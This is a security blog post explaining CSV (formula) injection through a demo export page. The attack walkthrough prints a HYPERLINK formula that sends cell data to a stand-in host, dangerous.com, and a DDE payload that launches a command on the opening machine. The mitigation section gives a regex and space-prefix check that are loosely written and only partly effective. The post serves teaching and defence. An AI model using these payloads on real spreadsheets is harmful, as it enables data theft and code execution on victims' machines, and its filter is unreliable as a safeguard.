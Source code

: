 :page-slug: is-csv-secure/
:page-date: 2017-12-22
:page-category: attacks
:page-subtitle: Defining CSV injection vulnerabilities
:page-tags: security, csv, code, web
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330929/blog/is-csv-secure/cover_tteaiz.webp
:page-alt: Blank CSV document icon
:page-description: Comma-Separated Values file is a common extension in data files used in several application fields. Here we present a CSV vulnerability most people ignore.
:page-keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet, Ethical Hacking, Pentesting
:page-author: Jonathan Armas
:page-writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/Wpnoqo2plFA

= Is that CSV Secure?

Comma-Separated Values file (or CSV) is a type of file that stores tabular data,
numbers and text in plain text. Each line of the file is a data record and
each record consists of one or more fields separated by commas. CSV is a common
data exchange format that is widely supported by consumer, business, and
scientific applications. As an example, a user may need to transfer information
from a database program that stores data in a proprietary format, to a
spreadsheet that uses a completely different format. The database program most
likely can export its data as "CSV"; the exported CSV file can then be imported
by the spreadsheet program.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp[example]

There is a vulnerability in this types of format that the most of programmers
ignores, that is "CSV Injection".
As link:https://www.owasp.org/index.php/CSV-Injection[OWASP] says,
it occurs when websites embed untrusted input inside CSV files,
when a spreadsheet program is used to open a CSV file,
any cell starting with '*=*' is considered as a formula
and crafted formulas can be used to malicious attacks.

== CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp[page]

We put some normal data and nothing happens

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-input_tryyrw.webp[input]
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-result_twbflm.webp[result]

But what happens if we put a formula like =2+5 in a field?

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-input_x6toul.webp[formula-input]
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-result_tuzdgy.webp[formula-result]

On our table nothing happens, but when we open the CSV file we get the result of
the formula that we introduced. This can be very dangerous if someone introduce
a more dangerous code like

----
=HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
----

When the user open the file it shows a link with our malicious site

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/hyperlink-vuln_mlaocr.webp[vuln]

Also we can execute commands on the target with this formula injection, in where
we open the calc when someone opens the CSV file

----
=cmd|' /C calc'!A0
----

It shows some warnings but the user trust in the source of the file and accept

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330925/blog/is-csv-secure/first-warning_wbfqyq.webp[warning-1]
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/second-warning_hha72t.webp[warning-2]

And then the code execution

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/exec-example_bumpxl.webp[exec]

The effectiveness of this vulnerability is that the user trust on the source of
the file without asking himself if is the normal behaviour when someone opens a
CSV file and the program asks form permission

=== Solution

* First is user awareness, because Windows shows an alert when someone puts
command execution code in the CSV file like we've seen

* Second, input validation, the most common characters to do this attack are:

----
=,+,-,@
----

A developer could make a validation like this regex

.validation.js
[source, javascript,linenums]
----
var regexp = new RegExp(/([=,-,+,@])/g);
----

And blocking this types of input, also, can put a space between the dangerous
character like ' =' to mitigate this vulnerability

[source, javascript,linenums]
----
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
----

In this example we can see that the spreadsheet program doesn't calculate the
formula and our input is secure

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/secure-input_bisups.webp[secure-input]
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330924/blog/is-csv-secure/secure-result_sfsxxc.webp[secure-result]

The source code of the page for testing can be found [button]#link:csvinjection.zip[here]#
